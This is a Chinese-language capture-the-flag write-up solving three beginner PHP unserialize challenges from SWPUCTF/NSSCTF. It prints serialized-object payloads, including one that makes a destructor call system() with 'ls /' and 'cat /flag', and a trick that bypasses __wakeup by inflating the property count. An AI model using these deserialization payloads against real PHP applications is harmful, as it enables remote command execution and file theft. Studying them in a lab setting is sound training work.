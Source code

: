##### [SWPUCTF 2021 新生赛]ez_unserialize

[NSS](https://www.ctfer.vip/problem/426)

- ```php
  <?php
  class wllm{
  
      public $admin;
      public $passwd;
  
      public function __construct(){
          $this->admin ="admin";
          $this->passwd = "ctf";
      }
  
      public function __destruct(){
          if($this->admin === "admin" && $this->passwd === "ctf"){
              include("flag.php");
              echo $flag;
          }else{
              echo $this->admin;
              echo $this->passwd;
              echo "Just a bit more!";
          }
      }
  }
  
  $p = new wllm();
  $s = serialize($p);
  echo $s;
  ?>
  ```

##### [SWPUCTF 2022 新生赛]1z_unserialize

[NSS](https://www.ctfer.vip/problem/2883)

- ```php
  <?php
  
  class lyh{
      public $url = 'NSSCTF.com';
      public $lt="eval";
      public $lly="system(ls /)";
  
      function  __destruct()
      {
          $a = $this->lt;
  
          $a($this->lly);
      }
  
  
  }
  $class = new lyh();
  $str = serialize($class);
  echo $str;
  ?>
  ```

  输出 `Fatal error:  Call to undefined function eval() in /var/www/html/index.php on line 12` ，知 eval 被禁了。

- ```php
  public $lt="system";
  public $lly="ls /";
  ```

- ```php
  public $lt="system";
  public $lly="cat /flag";
  ```

##### [SWPUCTF 2022 新生赛]ez_ez_unserialize

[NSS](https://www.ctfer.vip/problem/3082)

- wakeup() 的绕过：

  ```php
  <?php
  class X
  {
      public $x = __FILE__;
      function __construct($x)
      {
          $this->x = $x;
      }
      function __wakeup()
      {
          if ($this->x !== __FILE__) {
              $this->x = __FILE__;
          }
      }
      function __destruct()
      {
          highlight_file($this->x);
      }
  }
  $class = new X(fllllllag.php);
  $str = serialize($class);
  echo $str;
  ?>
  ```

  得到 `O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}` ，改为 `O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}` 即可。